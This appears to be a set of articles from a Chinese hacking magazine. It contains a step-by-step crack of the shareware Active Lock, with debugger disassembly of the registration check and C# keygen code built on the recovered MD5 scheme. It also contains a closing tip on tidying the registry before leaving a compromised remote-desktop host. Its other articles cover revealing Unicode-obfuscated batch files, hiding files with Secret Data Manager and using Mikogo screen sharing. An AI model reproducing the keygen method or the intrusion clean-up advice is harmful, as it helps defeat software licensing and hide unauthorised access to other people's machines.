

图2

怎么样？非常简单的一步注册表修改操作，不要怕麻烦，建议大家拿出 1 分钟“多此一举”将它做好，让这看似画蛇添足的一步成为我们撤离 3389 肉鸡最完美的“收剑”招式。记住——“细节决定成败！”

### 对某 U 盘程序制作注册流程分析



图1

朋友需要一个能把 U 盘变成电脑锁的软件，用来保护她新买的本本不受外人随意使用。正好前几天我在别人网站看到一款这样的软件，当时介绍的版本已经很老了，我使用 Google 搜索了一下，发现已经有新版本的程序存在了。以下为此软件的介绍：“Active Lock 可以将任何一款普通的 U 盘变成您的 Windows 登录钥匙。启用 Active Lock 后，用户需要插入 USB 钥匙盘才能登录 Windows 操作系统，拔出 U 盘时自动锁住电脑。

Active Lock 采用 Windows GINA 接口，无需安装驱动，不占用任何资源，也不产生任何进程。使用方法：打开 ALock.exe，插入要作为登录钥匙的 U 盘，选择 USB 钥匙盘盘符，单击‘启用’按钮，然后重新启动 Windows 操作系统即可。”

下载程序并安装，由于是一款共享软件所以需要注册。于是启动 PEiD 查看了一下程序是否有加壳，如图1所示。



图2

程序没有加壳，是由 Delphi 编译生成的。分析 Delphi 程序的利器是 DeDe，将其拖入到 DeDe 中进行分析。等待分析结束后，我们在如图2所示的界面找到了关于对话框的 OK 按钮事件地址：004AD74C。将此地址记下以备用。

在如图3所示的选项卡创建一个“.MAP”文件备用。



图3

好了，到现在为止所有的准备工作都已完成，现在该主角上场来破解这个程序了。运行 OllyDbg（以下简称 OD）并载入程序。待其分析完毕后，使用插件 Load Map 载入刚刚生成的那个 Map 格式文件。现在再来看 OD 中的代码，你会发现很多调用已经被解析出来了，点击 OD 界面如图4所示的图标。


图4

在弹出的对话框中输入刚才记下的地址：004AD74C，点击确定来到如下所示代码位置：

```asm
004AD76A  MOV EAX,DWORD PTR DS:[EBX+338]
004AD770  CALL <ALock.Controls.TControl.GetText>
004AD775  MOV EAX,[LOCAL.1]
004AD778  PUSH EAX
004AD779  LEA EDX,[LOCAL.2]
004AD77C  MOV EAX,DWORD PTR DS:[EBX+304]
004AD782  CALL <ALock.Controls.TControl.GetText>
004AD787  MOV EAX,[LOCAL.2]
004AD78A  POP EDX
004AD78B  CALL <ALock.?Unit143.sub_004AB46C>

; 关键调用。
004AD790  TEST AL,AL
004AD792  JNZ SHORT ALock.004AD7B9 ; 不跳则注册失败。
004AD794  PUSH 10
004AD796  MOV ECX,ALock.004AD87C ; ASCII "Information"
004AD79B  MOV EDX,ALock.004AD888 ; ASCII "Invalid register code, please contact us to get license."
004AD7A0  MOV EAX,DWORD PTR DS:[4B4138]
004AD7A5  MOV EAX,DWORD PTR DS:[EAX]
004AD7A7  CALL <ALock.Forms.TApplication.MessageBox>
```

从以上代码中可以看出，地址 004AD78B 处是一个关键调用，通过其返回值判断是否注册成功。我们跟进这个调用：

```asm
004AB492  MOV EAX,ESI
004AB494  CALL <ALock.SysUtils.UpperCase>
User 转大写；
004AB499  MOV ECX,[LOCAL.2]
004AB49C  LEA EAX,[LOCAL.1]
004AB49F  MOV EDX,ALock.004AB550 ; ASCII "ACTIVELOCK"
004AB4A4  CALL <ALock.System.@LStrCat3>
连接 ACTIVELOCK 和大写的 User
004AB4A9  LEA EDX,[LOCAL.7]
004AB4AC  MOV EAX,[LOCAL.1]
004AB4AF  CALL <ALock.?Unit143.sub_004AB6A4>
004AB4B4  LEA EAX,[LOCAL.7]
004AB4B7  LEA EDX,[LOCAL.3]
004AB4BA  CALL <ALock.?Unit143.sub_004AB604>
生成 MD5 哈希值
004AB4BF  MOV EAX,[LOCAL.3]
004AB4C2  MOV EDX,EBX
004AB4C4  CALL <ALock.SysUtils.SameText>
比较真伪注册码
004AB4C9  TEST AL,AL
004AB4CB  JNZ SHORT ALock.004AB50B
004AB4CD  LEA EAX,[LOCAL.10]
004AB4D0  CALL <ALock.?Unit143.sub_004AB38C>
004AB4D5  MOV ECX,[LOCAL.10]
004AB4D8  LEA EAX,[LOCAL.9]
004AB4DB  MOV EDX,[LOCAL.1]
004AB4DE  CALL <ALock.System.@LStrCat3>
上次的连接结果和 Serial 再次连接
004AB4E3  MOV EAX,[LOCAL.9]
004AB4E6  LEA EDX,[LOCAL.7]
004AB4E9  CALL <ALock.?Unit143.sub_004AB6A4>
004AB4EE  LEA EAX,[LOCAL.7]
004AB4F1  LEA EDX,[LOCAL.8]
004AB4F4  CALL <ALock.?Unit143.sub_004AB604>
生成 MD5 哈希值
004AB4F9  MOV EAX,[LOCAL.8]
004AB4FC  MOV EDX,EBX
004AB4FE  CALL <ALock.SysUtils.SameText>
比较真伪注册码
004AB503  TEST AL,AL
```

```asm
004AB505  JNZ SHORT ALOCK.004AB50B
004AB507  XOR EAX, EAX
不相等则 EAX 清零并返回
004AB509  JMP SHORT ALOCK.004AB50D
004AB50B  MOV AL,1
否则 AL 置 1 返回
```

```csharp
//
string temp = Username + textBox3.Text;
textBox2.Text = new Class1().Md5(Username).ToLower();
textBox4.Text = new Class1().Md5(temp).ToLower();
```

好了，到此我们已经对整个算法流程很清晰了，下面就用 C# 来写一个注册机吧，这样用起来会方便一些。运行 Visual Studio 2008，并新建一个 C# 项目。绘制程序界面如图5所示。

图5

然后双击 getKey 按钮生成按钮事件，并写下如下的事件代码：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    string Username = "ACTIVELOCK" + textBox1.Text.ToUpper();
    ...
}
```

由于前几天分析某软件的时候获取了该软件中一个计算 MD5 哈希值的 DLL 文件，所以我在程序中直接引入此 DLL 使用，如图6所示。

选择“生成”菜单下的“生成 XX 项目”（XX 视你的项目名而定），至此任务就完成了，我测试了一下挺好用的，终于是不负所托。朋友拿到程序后很是开心。

图6

通过本次的分析我们可以看出：欲善其事，必利其器。在分析的时候选择一款好的分析工具，能获得事半功倍的效果。希望大家在今后的道路上一帆风顺。

### 简简单单解密批处理乱码

前一段时间在网上溜达的时候看见了有关批处理加密的字眼，突然心血来潮产生了兴趣，然后就把那个据说可以对批处理和文本进行加密，而且对批处理加密后也能正常运行的样本下载回家研究。很小的东西，不一会儿下载完毕了，以记事本的方式打开，发现是一句话形式的，如图1。

我选用一个文本做试验，直接把一个文本图标拖到该文件前，然后松开鼠标就加密完毕了，如图2。感觉上加密后的文本让人看得头都疼了。其实不然！笔者发现这与障眼法没啥区别，经过我半天的研究，发现解密方法甚多，也很简单。

图1

#### 一、工具篇

- 1. Edit

Edit 是由微软 1995 年生产的 DOS 版文本编辑器，Edit 能把 Unicode 乱码以字符形态显示在编辑框里。介绍了工具后，我们来学习解密方法吧。打开 Cmd，输入“Edit File-Path”，把 FilePath 换成需要解密的文本路径，图3是解密后的实例。

- 2. WinRAR

WinRAR，相信读者们对它也非常熟悉吧；它也可以把 Unicode 乱码以字符形态显示出来。解密前首先把需要解密的文本压缩成一个 RAR 文件，打开后对其右击选择“查看文件”，随后原文就出来了，如图4。

- 3. WinHex

WinHex 是一个强壮的 16 进制编辑器，它强大的功能就不多说了。看解密方法吧：用 WinHex 载入需要解密的文本，然后把开头的“FF FE”用空格的 16 进制“20”填充，保存后再次打开此文本，原文蹦出来了，如图5。

- 4. VBScript

来看 VBS 的另类解密吧。首先设置一个 FSO 对象变量，用 OpenTextFile 方法打开目标，通过“Do While Not ... Loop”语句循环遍历内容到末尾；其中设置 Data 变量装载每一行的内容，并用加号“+”连接上一行的内容，最后通过“Wscript.Echo”显示给用户浏览原文。注意“Wscript.Echo”支持在 Cmd 下显示，可以在 Cmd 下用“>>”写进一个新的文件，方便操作，图7是运行效果。

#### 二、语言篇

用工具辅助我们解密都很简单吧？下面就来了解用简单的脚本语言是怎样进行 Unicode 乱码另类解密的吧！

- 1. Batch Script

思路很简单，首先判断拖进来的文件或命令行参数“%1”是否存在，存在则执行括号内的 For 命令；为了 For 命令能在文件名称带有空格的情况下找到该文件正常执行，我们需要把拖进来的文件赋予完整路径的短名。然后对文件一行一行地读取与显示；完成后用 Pause 命令暂停此批处理供用户查看结果。以下是程序代码，图6是把加密后的文本拖进去的执行效果。

```bat
@echo off
Title test
If exist "%~Fsx1" (
  For /f "delims=" %%A in (%~Fsx1) Do (
    Echo %%A
  )
  Pause>nul
)
```

- 2. VBScript

```vbscript
If WScript.Arguments.Count = 1 Then
  Set Fso = CreateObject("Scripting.FileSystemObject")
  Set Mdb = Fso.OpenTextFile(WScript.Arguments(0))
  Do While Not Mdb.AtEndOfStream
    Data = Data + Mdb.ReadLine & Chr(10)
  Loop
  Wscript.Echo Data
End If
```

- 3. Command

这是最简便的方法了，只需要一句 Cmd 命令即可完成解密工作。笔者在寻找这个最为简单的方法时尝试过很多命令，有 Type、More、Find 等等，可惜屡屡遭遇失败。正想放弃的时候突然想起了 FindStr.exe，顿时来了希望，马上打开 Cmd 输入“FindStr /V "%Random%" FilePath”成功了，如图8。

在此说明一下，“/V”是只显示不包含双引号里匹配内容的行，变量“%Random%”可以扩展到 0 和 32767 之间的任意十进制数字。所以说双引号内的文字尽量是文本内不可能存在的，这样才能保证正常完成解密工作。

写出以上的内容是希望能给读者们带来帮助，也希望读者们遇到问题能学会探究与解决，举一反三。（文中涉及的相关软件本期光盘已收录）

### 巧用捆绑术隐藏机密文件

公司副总到外地出差，和当地客户洽谈一笔重要的业务，这关系到公司下一步的发展前景。在谈判过程中，副总忽然想起有一份重要的文档忘记携带，于是打电话让秘书小李将该文档发来，并再三叮嘱小李要保密，千万不要让其落入竞争对手的手里。小李很快将文档发送到副总的邮箱中，副总打开收到的文档，却发现这是一份无关紧要的文件，其内容和所需文档风马牛不相及，难道是小李搞错了？不过很快小李就将密码和解密方法发送到副总的手机上，原来，真正的文档被加密隐藏在这份看似无关的文档中。这种李代桃僵的手段巧妙地保护了文档的安全。原来小李使用了 Secret Data Manager（简称 SCM）这款独特的安全软件，可以毫不费力地实现机密文件深度隐藏。

郭建伟

当初次使用 SCM 时，会自动弹出添加账户窗口（如图1）。在其中的“User Name”栏中输入用户名，在“Password”栏中输入密码，在“Safe Level”列表中选择安全等级（依次包括正常、高级、最高等），在“Email”栏中输入您的邮箱地址，点击“Done”按钮，完成账户创建操作。之后进入 SCM 主界面，注意您可以创建多个账户。方法是点击菜单“Settings”→“Users”→“Add”项，按照以上方法输入新的账户信息，完成该账户的创建操作。

SCM 的特点是可以使用不同的账户身份执行各自的文件加密隐藏操作，各账户之间的数据是彼此独立的。例如使用“User1”用户加密的数据，“User2”用户是无法访问的。当然，同一时刻只能使用单一的账户进入 SCM 操作环境。点击菜单“Settings”→“Users”→“Current User”项，在分支菜单中列出所有账户名称，您可以选定当前的账户。之后点击菜单“Settings”→“Log in”项，输入当前账户的密码（如图2），进入 SCM 操作环境。

在 SCM 主窗口左侧选择目标路径，在窗口中部显示其中包含的所有文件。在需要加密的文件右键菜单（如图3）上点击“Encrypt”项，SCM 即可对其进行加密处理，您无需输入密码，因为 SCM 可以使用当前账户的密码对其进行加密。加密后的文件后缀变为“.plsdm”，而且原文件彻底消失。解密的方法很简单，在加密文件的右键上点击“Decrypt”项，即可快速为其解密，恢复原始的文件。

图3

如何将机密文件隐藏在其它文件中呢？首先，您必须激活文件隐藏捆绑功能。点击菜单“Settings”→“Users”→“Current User Preference”项，在当前账户属性窗口底部勾选“Hide Name”和“Hide In File”项即可。SCM 可以将文件隐藏到 EXE 文件或者 JPG 图片中。这里我们以将机密文件隐藏到 EXE 文件为例进行说明。

在 SCM 主界面中选择目标路径，显示出需要处理的文件，例如在“机密文件.doc”的右键菜单（如图4）中点击“Hide In File”项。在弹出窗口中选择目标 EXE 文件，点击“Done”按钮，即可将其捆绑隐藏到目标 EXE 文件中了，同时原始文件消失。

当然，仅仅将机密文件隐藏到 EXE 或者 JPG 文件中，是无法满足我们深层次要求的。例如我们希望将“机密文件.doc”捆绑隐藏到“常规文档.doc”文件中，又要求不影响“常规文档.doc”的正常阅读，这样的话，别人是无论如何也想不到看似普通的文档中还会隐藏着机密文件。这样，数据的安全性可以大大提高。该如何实现上述要求呢？其实方法很简单：首先将“常规文档.doc”更名为“常规文档.exe”文件。之后就可以使用上述方法，将“机密文件.doc”隐藏到“常规文档.exe”文件中了。之后再将“常规文档.exe”更名为“常规文档.doc”。这样尽管在“常规文档.doc”中隐藏了“机密文件.doc”，但是丝毫不影响对“常规文档.doc”的阅读操作。按照同样的方法，可以将机密文档隐藏到任意类型的文件中。

图4

如何查看隐藏在宿主文件中的机密文档呢？方法是点击菜单“Tools”→“Hidden Object”项，在隐藏数据查看窗口中的“Hide In File”面板（如图5）中，第一个列表显示包含有隐藏信息的所有 EXE 文件或者 JPG 图片文件。选择目标宿主文件，点击“Show hidden file list”链接，在窗口底部列表中显示该文件中包含的所有机密文件。

如何提取加密文件呢？先选中隐藏的加密文件，之后点击窗口底部的“Move to”或者“Copy to”链接，就可以将其移动或者复制到指定的路径中了。按照相同的方法，您可以自由提取所需的加密文件。当然，针对上述更改文件类型的隐藏操作，该如何查看机密信息呢？方法其实很简单，例如在本例中首先将“常规文档.doc”更名为“常规文档.exe”，就可以按照上述方法来提取附接在其中的机密数据了。

注意以不同账户身份登录到 SCM 操作环境中后，其捆绑隐藏的机密文件对于其它账户是不可见的。也就是说，其它账户无法查看本账户捆绑隐藏的文件信息。此外，您可以在其它电脑上安装 SCM，之后创建相同的账户名并使用该账户登录到 SCM 操作环境中。之后打开隐藏数据查看窗口，在“Hide In File”面板中点击“Add host file”链接，导入宿主文件，同样可以提取隐藏在其中的机密文件。

图5

（文中涉及的相关软件本期光盘已收录）

### 轻松实现最安全的屏幕共享

小李热衷于研究黑客技术，在网上结交了不少志同道合的好友。只要有闲暇，大家就聚在一起探讨切磋安全技术。不过小李发现，对于 QQ、电子邮件、论坛等传统信息交流工具而言，其可操作性和互动性都比较差。在很多时候，即使面对一个并不复杂的问题，大家在线讨论时，仅仅通过发送聊天信息、传递图片、语音聊天等手段，往往要花费一番力气才能够将其搞明白。如果遇到复杂的技术难题，交流起来更是费时费力。

如果可以创建一个安全的网络会议环境，让大家都参与进来，通过屏幕共享、远程互动操作、电子白板、文件传输、实现录像等方法，让大家可以通过各自的屏幕实时观看和参与问题的分析解决过程，那么不就可以更好地交流心得，有效地提高大家的技术水平吗？有了 Mikogo 这款安全性极高的免费屏幕共享软件，小李毫不费力地将上述想法变成了现实。

#### 注册 Mikogo 账户

在使用 Mikogo 之前，作为主控方应该注册管理账号。在系统托盘的 Mikogo 图标右键菜单中点击“Create account”项，在注册窗口（如图1）中的“First Name”和“Last Name”栏中输入您的名称，在“Email Address”栏中输入邮箱地址，点击“Continue”按钮，即可完成注册操作。之后打开注册邮箱，在其中可以收到 Mikogo 发来的确认邮件，其中包含了您的账号（就是您的注册邮箱）和密码。

#### 配置 Mikogo

在系统托盘的 Mikogo 右键菜单中点击“Settings”项，在其设置窗口（如图2）的“Account”面板中输入您的账户名称、密码和昵称。

在“Preferences”面板（如图3）中可以设定允许在桌面上显示的对象。勾选“Show new application”项，表示当在桌面上启动新的应用程序后，所有来访者都可以看到其内容，并可以对该程序进行远程控制。如果不选择该项，表示当启动新的程序后，所有来访者是看不到的。在其下列出当前桌面上的所有显示对象，默认其全部处于选择状态，表示允许所有来访者看到和操控这些对象。您也可以自定义目标对象的选择状态，来确定是否将其显示在共享屏幕上。例如不选择“Desktop”项，那么在共享屏幕上就不显示桌面内容，所有参与者只能看到空白桌面。根据以上选择，在右侧可以预览实际的共享屏幕效果。勾选“Hide desktop wallpaper”项，表示禁止在共享屏幕上显示壁纸。

勾选“Enable viewer pointer”项，表示当来访者远程操作您的桌面时，会在桌面上显示该访问者的鼠标指针活动轨迹。在“Quality/Speed”栏中可以选择屏幕传输效果，包括“Max Speed”（最高速传输）、“High Speed”（快速传输）、“Standard Settings”（标准传输速度，默认选项）、“High Quality”（高质量传输）等。

在“Save Recording Location”栏中点击浏览按钮，设置对应路径，用来存储保存屏幕录像文件。在“Connection”面板中选择连接 Mikogo 服务器的方式，包括不使用代理服务器、使用 HTTPS、SOCKS4、SOCKS5、Web 代理服务器等，您可以根据需要进行配置；配置完成后，可以点击“Test connection”按钮，连接到 Mikogo 提供的测试项目上，进行实际连接测试操作。如果提示成功，那么就表示您可以正常使用 Mikogo 来创建共享屏幕了。之后点击确定按钮保存配置。

#### Mikogo 的安全性分析

Mikogo 对网络会议的安全性要求很高，设置了重重安全措施保护用户隐私和数据。这主要体现在以下几个方面：

- 其一，在网络会议期间传输的全部信息都使用专利压缩算法压缩，而且 Mikogo 使用 256 位 AES 加密算法加密所有数据。
- 其二，Mikogo 网站使用 SSL 128 位加密，这是当前使用最广泛的互联网标准，用以确保敏感网络数据的通信安全。
- 其三，Mikogo 支持独一无二的会议 ID 和会议密码功能。网络会议一旦开始，会议发起人就会收到一个随机产生的独一无二会议 ID。加入会议需要此特定会议 ID。为进一步提升安全性，会议发起人可以在会议开始之前在 Mikogo 设置里设定一个会议密码。只有同时拥有会议 ID 和会议密码才能参加这个会议。
- 其四，Mikogo 支持角色控制功能。Mikogo 支持的网络会议参与角色有主控方、演示者和来访者，不同角色拥有不同操作权限，Mikogo 确保只有得到许可的人员才能共享桌面内容或者参加会议。
- 其五，Mikogo 使用最先进的防火墙、网络监控和入侵检测工具，不让任何不速之客有机会参加 Mikogo 会议并查看他人的屏幕。
- 其六，Mikogo 不会存储任何会议数据，在 Mikogo 网络会议上显示的动态会议内容来源于演示者的电脑，与会者看到的只是这些数据的显示。会议结束后，所有数据都会消失。
- 其七，Mikogo 的安全通知服务：与会者在分享自己桌面内容或交出鼠标键盘远程控制权之前，屏幕上会先收到询问通知。在与会者明确同意之前，没有人可以查看或控制该与会者的桌面。对于主控方来说，在会议期间，您随时可以按下 Ctrl+F12 快捷键来取回自己键盘和鼠标的控制权。

#### 发起网络会议

在系统托盘的 Mikogo 右键菜单上点击“Start Meeting”项，即可开始创建共享屏幕操作。当共享屏幕创建成功后，在弹出的窗口（如图5）中的“Session Information”面板中显示详细报告信息，其中最主要的是“enter the Session ID”栏中的会话 ID 号，例如“263-299-724”等。参与者必须使用该 ID 才可以连接到您的共享屏幕上。

在“Start Options”面板（如图4）勾选“Use the following session”项，可以允许您自定义网络会议会话 ID；如果您不设置该项，Mikogo 可以自动为您分配会话 ID。勾选“Use a session password”项，可以为您的会话 ID 设置密码，这样所有来访者在参与网络会议时，不仅要知道网络会话 ID，而且必须输入该会话密码，才可以进入网络会话环境。在“Pause Text”栏中可以设置提示信息，当主控方暂时“冻结”共享屏幕时，可以将该信息发送给所有参与者。

您可以将该 ID 号发送给您的好友，对方在系统托盘的 Mikogo 右键菜单中点击“Join Meetings”项，在登录窗口（如图6）中的“Session ID”栏输入上述 ID 号码，在“Your Name”栏中输入其名称，点击“Join Session”按钮，即可连接到您的共享屏幕上，并在自动打开的预览窗口中显示您的桌面内容。之后您屏幕上的任何变化，所有参与者都可以实时观测到。当远程参与者连接到本机的共享屏幕后，在屏幕的右下角……可以弹出提示面板，显示连接到本机的用户信息。如果客户端不想安装 Mikogo 程序，也可以直接在浏览器中打开网址“http://www.mikogo.net.cn”，在页面右上角点击“参加会议”按钮，在弹出页面中的“Session Login”栏中输入会话 ID、连接密码、昵称等信息，确认后可以直接在浏览器窗口中进入网络会议界面，在其中对主控机桌面进行互动操作。

在 Mikogo 顶端窗口中看到该用户的桌面内容了。当主控方希望收回共享屏幕控制权时，可以在 Mikogo 的右键菜单中点击“Switch Presenter”→“Disable”项，即可取消选定用户的屏幕共享权，将主控机屏幕重新设置为共享屏幕。

### 实现互动访问操作

在共享屏幕过程中，有时您希望将本机的鼠标和键盘控制权转交给选定的用户，这样双方就可以同时操作本机屏幕了。为此，可以在主控方点击 Mikogo 右键菜单中的“Remote Control”项，在弹出菜单中列出所有的参与者，选择对应的参与者，Mikogo 即可将本机的鼠标键盘控制权分配给该用户，该访问者会接收到主控端 Mikogo 发来的提示信息。若主控方希望收回本机的键盘鼠标控制权时，可以直接点击“Ctrl+F12”键，来取消远方用户对本机的控制权。

### 独特的电子白板功能

作为主控方，您可以全面掌控屏幕共享的所有权限。在系统托盘的 Mikogo 右键菜单（如图7）中点击“Pause Transmission”项，可以暂停屏幕共享操作。之后系统托盘中 Mikogo 图标会不断闪烁，表示当前会话已经被冻结。以后您在屏幕上的举动，所有参与者都无法看到，该功能可以有效保护您的机密信息。需要恢复网络会话时，在上述菜单点击“Continue Transmission”项即可。

为了更好地和远程用户进行交流，Mikogo 提供了电子白板功能。在 Mikogo 右键菜单上点击“Whiteboard”项，在屏幕上可以弹出电子白板控制界面（如图8），利用其提供的笔刷、直线、圆形、文字、橡皮等工具，可以在屏幕上自由书写或者描绘各种文件或图案。

### 更换共享屏幕

在默认情况下，所有访问者共享的是主控机的屏幕内容。作为主控方，您完全具有更换共享屏幕的权利。也就是说，您可以指定任意访问者的屏幕作为共享屏幕，这样该用户的屏幕就处于所有访问者的共同控制之下。主控端在 Mikogo 右键菜单中点击“Switch Presenter”项，在其中显示所有参与者的名称，选择对应参与者，Mikogo 即可向该远程用户发送共享屏幕请求（如图9），当该用户点击“Yes”按钮后即可接收请求，之后即可将该用户的桌面设置为共享屏幕。

### 快捷发送文件

此外，Mikogo 还提供了文件发送功能，允许主控方将选定的文件发送给指定的参与者。在 Mikogo 右键菜单中点击“Send File”项，在文件发送窗口（如图10）中点击“Add files”按钮，选择需要发送的文件，在“Recipients”列表中选择接收文件的用户（默认全部选中），点击“Send”按钮，即可将文件发送出去。

当远方参与者接收到文件后，会自动弹出文件接收窗口（如图11）；在其中显示接收到的文件信息，当选定了存储路径后，点击“Accept”按钮，即可完成文件的接收操作。Mikogo 对大文件也支持快速发送，主控方可以将较大的文件通过互联网发送给选定用户。

在 Mikogo 右键菜单中点击“Lock Meeting Room”项后，将锁定当前的共享会话，之后 Mikogo 将拒绝新的参与者加入到本共享会话中。如果点击“Unlock Meeting Room”项，可以解除会话锁定状态，允许新的用户加入进来。

建立共享屏幕后，当需要结束共享屏幕时，可以在 Mikogo 右键菜单中点击“End Meeting”项，来结束本次会话。

### 管理桌面显示对象

在共享屏幕过程中，主控方可以随时调控屏幕显示的内容。在 Mikogo 右键菜单中点击“Application Selection”项，在弹出窗口中调整可以共享的桌面显示项目，其设置方法上述已经提及，这里就不再赘述了。在 Mikogo 右键菜单中点击“Back Monitor”项，在主控方屏幕右下角可以显示微缩版的桌面显示窗口，在其中显示桌面的完整内容，这样便于主控方在不关闭桌面上其他窗口的情况下，及时了解桌面的变化情况。在 Mikogo 右键菜单中点击“Recording”项，在弹出菜单中点击“Start”项，选择录像文件保存路径，之后即可执行桌面内容的录制操作。利用该菜单的其他项目，可以对录制操作执行暂停、继续、停止、取消等操作。在预设的存储路径中，可以找到录制的视频文件。

### 管理会话参与者

在 Mikogo 右键菜单中点击“Participants”项，在弹出窗口中可以看到所有的参与者名称，点击“Disconnect”按钮，可以断开选定用户的连接，将其排除在共享屏幕范围之外。在 Mikogo 右键菜单点击“Meeting Info”项，可以打开会话信息面板，在其中可以查看连接 ID。除了手工启动 Mikogo 共享屏幕外，还可以点击其右键菜单中的“Scheduler”项，打开计划任务管理窗口（如图12）。

点击其中的“New”按钮，在新建任务窗口（如图13）中的“Topic”栏中输入本计划名称，在“Start”栏中设置启动时间，在“Duration”栏中设置会话时长，范围从5分钟到10小时，在“Session Password”栏中输入连接密码，其余设置保持默认，点击“Save”按钮保存配置。按照上述方法，您可以添加多个计划任务项目，当到达预设时间后，Mikogo 可以自动建立共享屏幕。

### 参与者的控制功能

对于会话参与者来说，可以在其系统托盘的 Mikogo 右键菜单中点击“Send File”项，将选定文件发送给主控方。参与者也可以在上述菜单中点击“Becoming Presenter”项，向主控方发送申请，请求将其屏幕设置为共享状态，让所有参与者可以看到其桌面操作。还可以点击“Request Remote Control”项，向主控方发送远程控制请求，请求远程控制主控方的键盘和鼠标。当然，上述操作都必须获得主控方确认同意才行。同样，参与者也可以在 Mikogo 右键菜单中点击“Recording”项，在弹出菜单中点击“Start”项，执行桌面内容录制操作。利用该菜单的其他项，可以对录制操作执行暂停、继续、停止、取消等操作。如果点击“Quit Meeting”项，可以退出共享屏幕连接。

（文中涉及的相关软件本期光盘已收录）

## 三人挖坑，谨惕怨公攻破你！

学习破解也有一段时间了，其中的艰辛想必我等菜鸟一定深有体会。一直以来都很喜欢黑X中的文章，也学到了不少东西。很感谢那些大牛们，给我们提供了很多宝贵的经验！

